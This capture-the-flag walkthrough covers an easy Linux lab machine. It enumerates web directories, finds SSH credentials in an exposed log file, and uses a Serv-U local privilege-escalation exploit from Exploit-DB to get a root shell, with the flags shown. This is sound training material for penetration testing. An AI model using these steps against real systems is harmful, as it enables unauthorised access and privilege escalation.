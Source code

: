 # Callobes
## High Level Overview
"Callobes" is a Linux-based easy Capture The Flag (CTF) machine that presents an engaging and challenging cybersecurity scenario. Here's a brief overview:
This machine features both a web server and an SSH server. The web server has Path Traversal vulnerability hiding a crucial piece of information, specifically credentials, within a file. 
Upon successfully gaining an initial foothold, you'll discover a setuid binary named "Serv-u." This binary holds the key to escalating your privileges and potentially achieving root access on the system.
"Callobes" promises to challenge your skills in web exploitation, Linux privilege escalation, and potentially other areas of cybersecurity, making it an exciting platform for honing your penetration testing abilities.

## Enumerating the target
Run a full-range port scan to find all open ports.

```
┌──(kali㉿kali)-[~]
└─$ nmap -p- 192.168.121.129
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-05 19:10 EDT
Nmap scan report for 192.168.121.129
Host is up (0.00028s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 2.93 seconds

```
Nmap found two tcp ports (22, 80)

Navigating to the IP address in a browser we see the following.

![Alt text](Screenshots/image-2.png)

let’s run a dirbuster:
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129             

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:47:57 2023
URL_BASE: http://192.168.121.129/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/ ----
+ http://192.168.121.129/index.html (CODE:200|SIZE:10918)                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/javascript/                                                                                                                                                                 
+ http://192.168.121.129/phpinfo.php (CODE:200|SIZE:95537)                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/phpmyadmin/                                                                                                                                                                 
+ http://192.168.121.129/robots.txt (CODE:200|SIZE:31)                                                                                                                                                            
+ http://192.168.121.129/server-status (CODE:403|SIZE:280)   

```
With dirbuster we have an access directory, as well as an index.html, and robots.txt file 
As seen above we see a directory named robots.txt. 

First, navigate to the robots.txt file. We have four words in the robots.txt directory, as seen below. 

![Alt text](Screenshots/image-3.png)

We just only have access to the Shimishao directory.

We can use the dirbuster tool again in the Shimishao directory
```
┌──(kali㉿kali)-[~]
└─$ dirb http://192.168.121.129/shimishao

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Oct  5 19:58:42 2023
URL_BASE: http://192.168.121.129/shimishao/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.121.129/shimishao/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/data/                                                                                                                                                             
+ http://192.168.121.129/shimishao/index.php (CODE:200|SIZE:6597)                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/js/                                                                                                                                                               
==> DIRECTORY: http://192.168.121.129/shimishao/languages/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/lib/                                                                                                                                                              
==> DIRECTORY: http://192.168.121.129/shimishao/media/                                                                                                                                                            
==> DIRECTORY: http://192.168.121.129/shimishao/themes/                                                                                                                                                           
                                                                                                                                                                                                                  
---- Entering directory: http://192.168.121.129/shimishao/admin/ ----
==> DIRECTORY: http://192.168.121.129/shimishao/admin/ajax/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/components/                                                                                                                                                 
==> DIRECTORY: http://192.168.121.129/shimishao/admin/css/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/img/                                                                                                                                                        
==> DIRECTORY: http://192.168.121.129/shimishao/admin/inc/                                                                                                                                                        
+ http://192.168.121.129/shimishao/admin/index.php (CODE:200|SIZE:8967)                                                                                                                                           
==> DIRECTORY: http://192.168.121.129/shimishao/admin/js/                                                                                                                                                         
==> DIRECTORY: http://192.168.121.129/shimishao/admin/logs/                                                                                                                                                       
==> DIRECTORY: http://192.168.121.129/shimishao/admin/plugins/                                                                                                                                                    

```
As seen above, we can see shmishao/admin/logs directory which is useful for us.
Let's try directly access this directory:

![Alt text](Screenshots/image-4.png)

We see system.log file . Install this and see what we found.
![Alt text](Screenshots/image-5.png)

As seen above we got our credentials for the ubuntu user pred8or. Now we can use these credentials to log in ssh. 

```
┌──(kali㉿kali)-[~]
└─$ ssh pred8or@192.168.121.129
pred8or@192.168.121.129's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 5.3.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

74 packages can be updated.
28 updates are security updates.

New release '20.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2023.
Last login: Tue Oct  3 03:42:01 2023 from 192.168.163.1
pred8or@shimishao:~$ 
```

From there we can see that we have found the user1.txt file. Let's read it via cat user1.txt. We've successfully found the flag!

```
pred8or@shimishao:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ cat user1.txt
ICSD{66d74978b307889bea234a4bc6570a36}

```

Privilege escelation is the process of going from lower permissions to higher permission. This is done by exploiting vulnerabilities, design flaws or misconfigurations in applications. This process is very important.

By using the following command you can enumerate all binaries having SUID permissions:

```
find / -perm -u=s -type f 2>/dev/null
```
```
pred8or@shimishao:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U


```

Following the execution of the specified command, we have identified the Serv-U with suid (Set User ID) permissions. Let's google it and see what vulnerability we find.

![Alt text](Screenshots/image-6.png)

In Exploit-DB "Serv-U FTP Server < 15.1.7 - Local Privilege Escalation" we found vulnerable version.

https://www.exploit-db.com/exploits/47173

Let's exploit it:

We copy this bash script and run it in our home directory.

```
pred8or@shimishao:~$ ls
b.sh  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user1.txt  Videos
pred8or@shimishao:~$ bash b.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Oct  6 07:12 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# whoami
root
sh-4.4# cd /root
sh-4.4# ls
root.txt
sh-4.4# cat root.txt
ICSD{45caa8f3afa6fc94aa3c039ceeeb7883}
sh-4.4# 
```

